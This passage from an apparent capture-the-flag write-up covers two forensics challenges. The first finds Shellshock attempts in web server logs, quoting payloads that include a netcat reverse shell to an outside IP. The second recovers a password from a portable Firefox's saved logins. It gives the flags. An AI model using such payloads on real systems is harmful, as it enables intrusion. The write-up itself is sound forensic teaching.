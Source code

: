 Since it was a RCE vulnerability, the first search was for a reference to something like `/bin/bash`. The following appered:

```text
195.169.55.85 - - [22/Jan/2018:10:34:00 +0100] "GET /cgi-bin/testing.cgi HTTP/1.0" 200 1 "-" "() { :;}; /bin/bash -c 'ping -c 3 191.252.134.38; id'"
195.169.55.85 - - [22/Jan/2018:10:35:12 +0100] "GET /cgi-bin/testing.cgi HTTP/1.0" 200 1 "-" "() { :;}; /bin/bash -c 'nc 191.252.134.38 4444 -e /bin/sh'"
```

The flag was: flag{195.169.55.85_shellshock}

### forensics-200 (200 pts)

> Someone lost its pen drive at the university five days ago. This pen drive was picked by a hacker that, besides keeping the pen for themself, also broke into the person PayPal account and stole their funds.

> This was unexpected since the person used strong passwords. Look at the content of the pen drive (zip file) and find out the password. The flag has the format {secret}. 

The pen drive had a [Firefox portable](https://portableapps.com/apps/internet/firefox_portable) application in it. Opening this app and look at the `Saved Logins` we could get the email and password of the aforementioned person.

<center>
<img style="width: 50%;" src="/assets/rctsctf20/firefox.png"/>
</center>

The flag was: {use_keypass_instead}.
